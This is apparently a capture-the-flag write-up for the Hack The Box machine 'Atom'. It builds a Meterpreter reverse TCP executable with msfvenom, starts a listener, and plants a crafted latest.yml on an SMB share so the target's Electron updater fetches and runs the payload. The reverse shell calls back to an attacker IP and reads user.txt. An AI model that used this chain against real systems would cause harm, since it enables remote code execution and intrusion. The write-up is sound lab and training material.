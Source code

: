### 1.POC-

![[Pasted image 20210614141530.png]]

![[Pasted image 20210614143512.png]]

### 2.Using MsfVenom to build our payload-

```bash
root@napster:~/Documents/HTB/Atom# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.163 LPORT=9001 -f exe -o "r'napster.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: r'napster.exe
root@napster:~/Documents/HTB/Atom# ls
 Atom   nmap  "r'napster.exe"   UAT_Testing_Procedures.pdf
root@napster:~/Documents/HTB/Atom# shasum -a 512 "r'napster.exe" | cut -d " " -f1 | xxd -r -p | base64 -w 0
S6SSVewwGaV+JY5k8wChfbQaHtQ4WQoIgfDvNDRvK7xAAjklsW3mzCB2ZcS/IFerwP9nTBFkjakSJGSHAm0TEQ==
```

### 3.Msfconsole-
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.163
LHOST => 10.10.14.163
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.163:9001 
```

** Now we need to `create` a file called `latest.yml` and add our `hash` inside this file.**
### 4.latest.yml:

```bash
version: 1.2.3
path: http://10.10.14.163/r'napster.exe
sha512: S6SSVewwGaV+JY5k8wChfbQaHtQ4WQoIgfDvNDRvK7xAAjklsW3mzCB2ZcS/IFerwP9nTBFkjakSJGSHAm0TEQ==
```

```bash
root@napster:~/Documents/HTB/Atom# cat latest.yml 
version: 1.2.3
path: http://10.10.14.163/r'napster.exe
sha512: S6SSVewwGaV+JY5k8wChfbQaHtQ4WQoIgfDvNDRvK7xAAjklsW3mzCB2ZcS/IFerwP9nTBFkjakSJGSHAm0TEQ==
```

### 5.Put the latest.yml file inside client1:

Now last `thing` you want to do is put the file inside `client2` or client1 folder it's your `choice`.

```bash
root@napster:~/Documents/HTB/Atom# smbclient \\\\10.10.10.237\\Software_Updates
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 14 15:00:01 2021
  ..                                  D        0  Mon Jun 14 15:00:01 2021
  client1                             D        0  Mon Jun 14 15:00:01 2021
  client2                             D        0  Mon Jun 14 15:00:01 2021
  client3                             D        0  Mon Jun 14 15:00:01 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021

                4413951 blocks of size 4096. 1368575 blocks available
smb: \> cd client1
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (0.3 kb/s) (average 0.3 kb/s)
```

Start a python server and catch your reverse shell-

![[Pasted image 20210614150417.png]]

### 6.User.txt:

```bash
C:\Users\jason\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of C:\Users\jason\Desktop

04/02/2021  10:29 PM    <DIR>          .
04/02/2021  10:29 PM    <DIR>          ..
03/31/2021  02:09 AM             2,353 heedv1.lnk
03/31/2021  02:09 AM             2,353 heedv2.lnk
03/31/2021  02:09 AM             2,353 heedv3.lnk
06/14/2021  09:52 AM                34 user.txt
               4 File(s)          7,093 bytes
               2 Dir(s)   5,604,515,840 bytes free

C:\Users\jason\Desktop>type user.txt
type user.txt
44bcc7c69eb4ab08e9ad4d0591e770c1
```

